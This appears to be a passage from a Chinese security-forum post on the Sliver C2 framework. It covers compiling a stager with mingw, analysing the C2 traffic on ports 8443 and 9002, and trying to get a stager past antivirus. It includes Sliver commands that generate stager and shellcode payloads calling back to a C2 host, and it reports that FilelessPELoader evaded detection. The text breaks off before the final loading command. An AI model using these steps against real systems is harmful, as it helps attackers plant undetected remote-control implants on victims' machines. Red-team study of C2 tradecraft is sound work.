 编译出来

```shell
x86_64-w64-mingw32-gcc -o runner.exe 1.c
```

![p9aHc0H.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-e98e89865296def96f3b2a83f96e9f9d623982a8.png)

### 流量分析

在C2服务器上抓包，首先是stager在TCP 8443 中建立连接，传输Sliver shellcode至目标主机上。  
![p9aHWtI.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-d1a6e37d58a57c26c21e9bdb62cee5b85580e4ed.png)

接着一段时间后，捕获到HTTP流量信息，结合之前的通信流量分析文章中的HTTP部分，可以发现目标发送 `POST /actions/admin.html?er=33722640&n=9037148x0` 数据包建立连接（不懂的可以参考前面的文章），在通过一堆请求 js 文件进行通信交互。  
![p9aH49P.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-e92e0f48fc99fb77f1491e0f67cd13e889001e0a.png)  
综上，正好印证了Stager在TCP 8443中传输，Sliver Shellcode在HTTP 9002中传输。

三、免杀尝试
------

上面写的简易 Stager 在存有杀软环境中会被查杀，结合这篇文章，实现网络分离免杀的效果。  
下面是测试过程：

有两种工具方法

### 01 SysWhispers3WinHttp

> 失败了 ❌

工具地址 - <https://github.com/huaigu4ng/SysWhispers3WinHttp>  
根据 SysWhispers3WinHttp 工具的原理，我构想对 stager 进行分离加载  
在创建stager中进行简单调整，生成raw格式。

```shell
generate stager --lhost 172.16.181.182 --lport 8443 --arch amd64 --format raw --save beacon.bin
```

后面编译生成对应的程序后，上线失败。  
思考了下，工具介绍中这里的shellcode是分阶段式的shellcode，用于直接上线的，但我这里的shellcode用于连接Sliver中的Stage监听器，目标不同。

按照上面的思路，那么就尝试简化下，直接generate生成一个raw格式的代码尝试直接免杀上线。

```shell
generate --http 172.16.181.182:9003 --skip-symbols --format shellcode --arch amd64
```

### 02 FilelessPELoader

> 成功 ✅

工具地址 - <https://github.com/TheD1rkMtr/FilelessPELoader>  
将之前创建的简易 stager 放到该项目目录下，使用脚本进行加密。  
![p9aHg7d.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-2e5125a4ee694cec22abd9c7452a6a3526d28a73.png)  
上传 FilelessPELoader.exe 至目标主机，通过以下命令网络分离加载 Stager
